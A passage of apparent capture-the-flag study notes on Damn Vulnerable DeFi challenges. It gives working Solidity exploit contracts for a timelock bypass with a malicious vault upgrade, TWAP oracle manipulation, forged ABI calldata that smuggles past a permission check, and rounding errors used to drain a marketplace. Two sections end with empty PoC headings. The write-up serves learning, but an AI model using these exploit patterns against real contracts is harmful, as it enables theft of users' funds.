- The attack flow is clear and should be easy-understanding by inspecting the following code

PoC:
```solidity
// test
function test_climber() public checkSolvedByPlayer {
    ClimberExploiter exploiter = new ClimberExploiter(
        address(timelock),
        address(vault),
        address(token),
        recovery
    );
    exploiter.exploit();
}

// Exploit contract
contract ClimberExploiter {
    ClimberTimelock private _timelock;

    address[] private _targets = new address[](4);
    uint256[] private _values = [0, 0, 0, 0];
    bytes[] private _dataElements = new bytes[](4);

    constructor (address timelock, address vault, address token, address recovery) {
        _timelock = ClimberTimelock(payable(timelock));

        // proposal_1: Upgrade vault then withdraw all the funds immediately
        _targets[0] = vault;
        _dataElements[0] = abi.encodeWithSignature(
            "upgradeToAndCall(address,bytes)",
            address(new FakeVault()),
            abi.encodeWithSignature("emergencyWithdraw(address,address)", token, recovery)
        );

        // proposal_2: Set Update Delay to 0
        _targets[1] = timelock;
        _dataElements[1] = abi.encodeWithSelector(ClimberTimelock.updateDelay.selector, 0);

        // proposal_3: Grant proposer role to timelock
        _targets[2] = timelock;
        _dataElements[2] = abi.encodeWithSignature(
            "grantRole(bytes32,address)",
            PROPOSER_ROLE,
            address(this)
        );

        // proposal_4: Call schedule() on timelock
        _targets[3] = address(this);
        _dataElements[3] = abi.encodeWithSignature(
            "timelockSchedule()"
        );
    }

    function exploit() external {
        _timelock.execute(_targets, _values, _dataElements, keccak256("123"));
    }

    function timelockSchedule() external {
        _timelock.schedule(_targets, _values, _dataElements, keccak256("123"));
    }
}

// Upgrade vault
contract FakeVault is ClimberVault {

    constructor() {
        _disableInitializers();
    }

    function emergencyWithdraw(address token, address recipient) external onlyOwner {
        IERC20(token).transfer(recipient, IERC20(token).balanceOf(address(this)));
    }
    
}
```
Thought: 
- Anything strange at first glance may be a vulnerability

### Wallet Mining

Condition:
- Player recovered all tokens for the `user`
- Player sent payment to `ward`

Key Concept:
- Proxy collision
- `SAFE_SINGLETON_FACTORY_ADDRESS`: Used to deploy `copy` and `factory` contracts
- `CREATEX_ADDRESS`: Used to deploy `AuthorizerFactory`

Solution:
- 換掉 `authorizer` ? ❌
- upgrade `authorizer` ? ❌
- `init` again ? ❌


PoC:

### Puppet V3

Condition:
- Rescue all `dvt` from `pool` to `recovery`
- Must finish before `block.timestamp - initialBlockTimestamp >= 115`

Key Concept:
- TWAP
    - [Uniswap as a Price Oracle](https://docs.uniswap.org/sdk/v3/guides/advanced/price-oracle)
- UniswapV3
    - [UniswapV3Pool.sol](https://github.com/Uniswap/v3-core/blob/main/contracts/UniswapV3Pool.sol)
    - [Oracle.sol](https://github.com/Uniswap/v3-core/blob/main/contracts/libraries/Oracle.sol)
    - [OracleLibrary.sol](https://github.com/Uniswap/v3-periphery/blob/main/contracts/libraries/OracleLibrary.sol)


Solution:
- The price oracle is again manipulatable, and since the TWAP period is 10 minutes, which is somewhat short 


PoC:
```solidity
// test
function test_puppetV3() public checkSolvedByPlayer {
    IUniswapV3Pool uniswapPool = IUniswapV3Pool(uniswapFactory.getPool(address(weth), address(token), FEE));

    PuppetV3Exploiter exploiter = new PuppetV3Exploiter{value: PLAYER_INITIAL_ETH_BALANCE}(
        uniswapPool,
        lendingPool,
        address(token),
        payable(address(weth)),
        recovery
    );
    token.transfer(address(exploiter), PLAYER_INITIAL_TOKEN_BALANCE);
    exploiter.exploit();

    vm.warp(block.timestamp + 114);
    exploiter.post_exploit();
}

// exploit contract
contract PuppetV3Exploiter {
    uint256 constant LENDING_POOL_INITIAL_TOKEN_BALANCE = 1_000_000e18;
    uint256 constant DEPOSIT_FACTOR = 3;
    uint32 constant TWAP_PERIOD = 10 minutes;

    IUniswapV3Pool private _uniswapv3pool;
    PuppetV3Pool private _pool;

    address private _dvt;
    address payable private _weth;
    address private _recovery;

    constructor(IUniswapV3Pool uniswapv3pool, PuppetV3Pool pool, address dvt, address payable weth, address recovery) payable {
        _uniswapv3pool = uniswapv3pool;
        _pool = pool;
        _dvt = dvt;
        _weth = weth;
        _recovery = recovery;
    }   

    function exploit() public {
        IERC20(_dvt).approve(address(_uniswapv3pool), type(uint256).max);
        WETH(_weth).deposit{value: 1 ether}();

        // swap direction: DVT (token0) -> WETH (token1)
        int256 amountIn = int256(IERC20(_dvt).balanceOf(address(this)));
        _uniswapv3pool.swap(
            address(this),     // recipient
            true,              // zeroForOne: token0 -> token1
            amountIn,  // amountSpecified: positive (exactInput if input amount is known)
            TickMath.MIN_SQRT_RATIO + 1, // sqrtPriceLimitX96: no restriction
            abi.encode(amountIn)  // data
        );
    }

    function post_exploit() external {
        uint256 borrow_amount = IERC20(_dvt).balanceOf(address(_pool));
        (int24 arithmeticMeanTick,) = OracleLibrary.consult({pool: address(_uniswapv3pool), secondsAgo: TWAP_PERIOD});
        uint256 quote = OracleLibrary.getQuoteAtTick({
            tick: arithmeticMeanTick,
            baseAmount: uint128(LENDING_POOL_INITIAL_TOKEN_BALANCE),
            baseToken: address(_dvt),
            quoteToken: address(_weth)
        });

        IERC20(_weth).approve(address(_pool), quote * DEPOSIT_FACTOR + 1);
        _pool.borrow(borrow_amount);
        IERC20(_dvt).transfer(_recovery, LENDING_POOL_INITIAL_TOKEN_BALANCE);
    }

    function uniswapV3SwapCallback(
        int256 amount0Delta,
        int256 amount1Delta,
        bytes calldata
    ) external {
        require(msg.sender == address(_uniswapv3pool), "Not pool");
        console.log("amount0Delta:", amount0Delta);
        console.log("amount1Delta:", amount1Delta);
        if (amount0Delta > 0) {
            // We are paying token0 (DVT)
            IERC20(_dvt).transfer(msg.sender, uint256(amount0Delta));
        }
        // No need to do anything with amount1Delta (WETH), that's what we receive.
    }
}
```
#### Learning by doing
Observation: All V3 pools store `observations` of the current tick and the block timestamp, but to minimize pool deployment costs, only one `Observation` is stored in the contract when the Pool is created 
- [observations](https://github.com/Uniswap/v3-core/blob/main/contracts/UniswapV3Pool.sol#L99C5-L99C60): An array of `Observation`
- [Observation](https://github.com/Uniswap/v3-core/blob/main/contracts/libraries/Oracle.sol#L12C5-L21C6):
    ```solidity
    struct Observation {
        // the block timestamp of the observation
        uint32 blockTimestamp;
        // the tick accumulator, i.e. tick * time elapsed since the pool was first initialized
        int56 tickCumulative;
        // the seconds per liquidity, i.e. seconds elapsed / max(1, liquidity) since the pool was first initialized
        uint160 secondsPerLiquidityCumulativeX128;
        // whether or not the observation is initialized
        bool initialized;
    }
    ```
Anyone who is willing to pay the gas costs can increase the number of stored observations to up to 65535 via `swap()` and `modifyPosition()`

Fetch`Observations`: we need to call the [`observe()` function](https://github.com/Uniswap/v3-core/blob/main/contracts/UniswapV3Pool.sol#L235C5-L252C6), which then call [`observations.observe()`:](https://github.com/Uniswap/v3-core/blob/main/contracts/libraries/Oracle.sol#L300), which get each `Observations` of specidied `secondsAgo` by wrapping [`observeSingle()`](https://github.com/Uniswap/v3-core/blob/main/contracts/libraries/Oracle.sol#L245C5-L253C6)

**`observeSingle()`**: To fetch a single historical observation (i.e., `tickCumulative` and `secondsPerLiquidityCumulativeX128`) from the Uniswap V3 pool’s oracle ring buffer as it would have been `secondsAgo` seconds ago relative to the current time.

### ABI Smuggling

Condition:
- Rescue all tokens from `vault` and deposit into `recovery`

Key Concept:
- ABI Encode Rule
    - [Contract ABI Specification](https://docs.soliditylang.org/en/v0.8.21/abi-spec.html)
    - [WTF-solidity 27_ABIEncode](https://github.com/AmazingAng/WTF-Solidity/tree/main/27_ABIEncode)
    - [WTF-Solidity-Internals 06_AbiDynamic
](https://github.com/WTFAcademy/WTF-Solidity-Internals/blob/master/tutorials/06_AbiDynamic/readme.md)
    - [WTF-Solidity-Internals 07_AbiFormula](https://github.com/WTFAcademy/WTF-Solidity-Internals/blob/master/tutorials/07_AbiFormula/readme.md)
    - [WTF-Solidity-Internals 08_AbiCalldata](https://github.com/WTFAcademy/WTF-Solidity-Internals/blob/master/tutorials/08_AbiCalldata/readme.md)

Solution:
- `AuthorizedExecutor.execute()` is intended to authorize function calls by extracting the function selector from the `actionData` and verifying it against a permission mapping using `getActionId`
- However, instead of **using the passed-in actionData directly**, it uses low-level `calldataload` at a fixed offset in the full calldata to extract the selector, which assumes a strict calldata layout
- Since bytes is a **dynamic type**, ABI encoding uses an **offset to point to the actual data**, allowing
    - Insert a forged function selector (e.g. `withdraw.selector`) at the expected calldata offset, tricking the permission check.
    - still pass the actual malicious actionData (e.g. `sweepFunds`) stored elsewhere in calldata by specifying the offset

Final artifact calldata:
```
0x
1cff79cd // selector
0000000000000000000000001240fa2a84dd9157a0e76b5cfe98b1d52268b264 // address
0000000000000000000000000000000000000000000000000000000000000064 // actionData offset: 100
0000000000000000000000000000000000000000000000000000000000000000 // meaningless padding
d9caed12 // withdraw.selector
0000000000000000000000000000000000000000000000000000000000000044 // actionData length
85fb709d // sweepFunds.selector
00000000000000000000000073030b99950fb19c6a813465e58a0bca5487fbea // address(receiver)
0000000000000000000000008ad159a275aee56fb2334dbb69036e9c7bacee9b // address(token)
00000000000000000000000000000000000000000000000000000000 // padding to make everything 32-byte aligned (optional)
```

PoC:
```solidity
function test_abiSmuggling() public checkSolvedByPlayer {
    bytes memory actionData = abi.encodeWithSelector(
        SelfAuthorizedVault.sweepFunds.selector,
        recovery,
        address(token)
    );
    console.logBytes(actionData);

    bytes memory callData = abi.encodePacked(
        AuthorizedExecutor.execute.selector, // selector
        bytes32(uint256(uint160((address(vault))))), // address vault
        uint256(100), // offset of actionData
        uint256(0), // meaningless 
        hex"d9caed12", // withdraw.selector
        uint256(68), // legnth of actionData
        actionData,
        new bytes(28) // mimic abi enocde behavior: padding to make everything 32-byte aligned (optional)
    );
    console.logBytes(callData);

    address(vault).call(callData);
}
```

#### Deep Dive
As a player, normally we are only authorized to call `withdraw()`
normal actionData:
```
0x
d9caed12 // withdraw.selector
0000000000000000000000008ad159a275aee56fb2334dbb69036e9c7bacee9b // token address
00000000000000000000000044e97af4418b7a17aabd8090bea0a471a366305c // recipient address
0000000000000000000000000000000000000000000000000de0b6b3a7640000 // amount: 1e18
```
normal calldata:
- offset indicates the start of the data, including length
- since **`abi.encode` pads each argument into 32 bytes**, and since `bytes` is right padding, it will pad additional 28 zero bytes at the end
```
0x
1cff79cd // execute.selector
0000000000000000000000001240fa2a84dd9157a0e76b5cfe98b1d52268b264 // target address, i.e. vault
0000000000000000000000000000000000000000000000000000000000000040 // actionData offset
0000000000000000000000000000000000000000000000000000000000000064 // actionData length
d9caed12 // withdraw.selector
0000000000000000000000008ad159a275aee56fb2334dbb69036e9c7bacee9b // token address
00000000000000000000000044e97af4418b7a17aabd8090bea0a471a366305c // recipient address
0000000000000000000000000000000000000000000000000de0b6b3a7640000 // amount
00000000000000000000000000000000000000000000000000000000 // additional 28 zero bytes
```

exploit actionData: 
```
0x
85fb709d // sweeepFunds.selector
00000000000000000000000073030b99950fb19c6a813465e58a0bca5487fbea // receiver address
0000000000000000000000008ad159a275aee56fb2334dbb69036e9c7bacee9b // token address
```

exploit calldata:
- By setting `offset = 100` (i.e., `0x64`), we control where `actionData` actually begins in calldata.
- This allows us to inject a fake selector (e.g., `withdraw.selector`) at `offset 4 + 32 * 3 = 0x64`, which is the hardcoded location that `execute()` uses for authorization checks, and it’s ignored during decoding and execution.
```
0x
1cff79cd // selector
0000000000000000000000001240fa2a84dd9157a0e76b5cfe98b1d52268b264 // address
0000000000000000000000000000000000000000000000000000000000000064 // actionData offset: 100
0000000000000000000000000000000000000000000000000000000000000000 // meaningless padding
d9caed12 // withdraw.selector
0000000000000000000000000000000000000000000000000000000000000044 // actionData length
85fb709d // sweepFunds.selector
00000000000000000000000073030b99950fb19c6a813465e58a0bca5487fbea // address(receiver)
0000000000000000000000008ad159a275aee56fb2334dbb69036e9c7bacee9b // address(token)
00000000000000000000000000000000000000000000000000000000 // padding to make everything 32-byte aligned (optional)
```

### Shards

Condition:
- Rescue as much `dvt` as possible from `marketplace` and transfer them to `recovery`

Key Concept:
- Rounding Error
- [ERC-1167: Minimal Proxy Contract](https://eips.ethereum.org/EIPS/eip-1167)

Solution:
- In `fill()`, there exists rounding issue while calculating amount needed to spend
    - `mulDivDown` rounds down to 0
    - With careful calculation, we can find that as long as `want <= 133`, we can purchase it without spending any token 
- In `cancel()`, there exists accounting error that buyers can get more repay than their spending on purchase
- With the above understanding, first we can leverage the rounding issue to get the inital funds, and then we can calculate `want` needed to  get the marketplace's remaining funds during `cancel()`, then calulate cost needed to purchase `want`

PoC:
```solidity
// test 
function test_shards() public checkSolvedByPlayer {
    ShardsExploiter exploiter = new ShardsExploiter(marketplace, token, recovery);
    exploiter.exploit();
}


// exploit contract
contract ShardsExploiter {
    using FixedPointMathLib for uint256;

    uint256 constant MARKETPLACE_INITIAL_RATE = 75e15;
    uint112 constant NFT_OFFER_PRICE = 1_000_000e6;
    uint112 constant NFT_OFFER_SHARDS = 10_000_000e18;

    ShardsNFTMarketplace _marketplace;
    DamnValuableToken _token;
    address _recovery;

    constructor(ShardsNFTMarketplace marketplace, DamnValuableToken token, address recovery) {
        _marketplace = marketplace;
        _token = token;
        _recovery = recovery;
    }

    function exploit() public {
        // 1. leverage rounding error
        uint256 purchaseIndex = _marketplace.fill(1, 133);
        _marketplace.cancel(1, purchaseIndex);
        
        // 2. leverage accounting error
        uint256 remain_funds = _token.balanceOf(address(_marketplace));
        uint256 want = remain_funds.mulDivDown(1e6, MARKETPLACE_INITIAL_RATE);
        uint256 spending = want.mulDivDown(NFT_OFFER_SHARDS, uint256(NFT_OFFER_PRICE).mulDivDown(MARKETPLACE_INITIAL_RATE, 1e6));
        
        _token.approve(address(_marketplace), spending);
        purchaseIndex = _marketplace.fill(1, want);
        _marketplace.cancel(1, purchaseIndex);

        _token.transfer(_recovery, _token.balanceOf(address(this)));
    }
}
```
#### Learning by doing
ERC1167: Minimal Proxy Contract:
- To simply and cheaply clone contract functionality in an **immutable** way
- Specifies a minimal bytecode implementation that delegates all calls to a known, fixed address. 

Proxy bytecode format:
```
0x3d602d80600a3d3981f3 // initialization code
  + <20-byte implementation address>
  + 5af43d82803e903d91602b57fd5bf3
```
```
0x3d602d80600a3d3981f3 // initialization code
363d3d373d3d3d363d73
<20-byte implementation address>
5af43d82803e903d91602b57fd5bf3
```

### Curvy Puppet

Condition:
- All users' positions are closed
    - `lending.getCollateralAmount(users[i]) ==  0`
    - `lending.getBorrowAmount(users[i]) == 0`
- Treasury still has funds left
    - `weth.balanceOf(treasury) > 0`
    - `lp_token.balanceOf(treasury) > 0`
    - `dvt.balanceOf(treasury) == USER_INITIAL_COLLATERAL_BALANCE * 3`
- Player has nothing
    - `dvt.balanceOf(player) == 0`
    - `stETH.balanceOf(player) == 0`
    - `weth.balanceOf(player) == 0`
    - `lp_token.balanceOf(user) == 0`


Key Concept:
- [Curve Stableswap Exchange: Overview](https://docs.curve.finance/stableswap-exchange/overview/)
- [permit2](https://github.com/Uniswap/permit2)


Solution:
- As a player, we can only close all users position by executing `liquidate()`
- To trigger liquidation, we need to manipulate either collateral or borrow's value
    - `collateralValue`: controlled by `oracle.getPrice(collateralAsset).value`, which is `10e18`
    - `borrowValue`: controlled by `oracle.getPrice(curvePool.coins(0)).value.mulWadDown(curvePool.get_virtual_price());`
        -  `get_virtual_price()`: return `D * PRECISION / token_supply`

```
TREASURY_WETH_BALANCE = 200e18;
TREASURY_LP_BALANCE = 65e17;
LENDER_INITIAL_LP_BALANCE = 1000e18;
USER_INITIAL_COLLATERAL_BALANCE = 2500e18;
USER_BORROW_AMOUNT = 1e18;
ETHER_PRICE = 4000e18;
DVT_PRICE = 10e18;
```
```
PRECISION = 1e18
```

PoC:

#### Learning by doing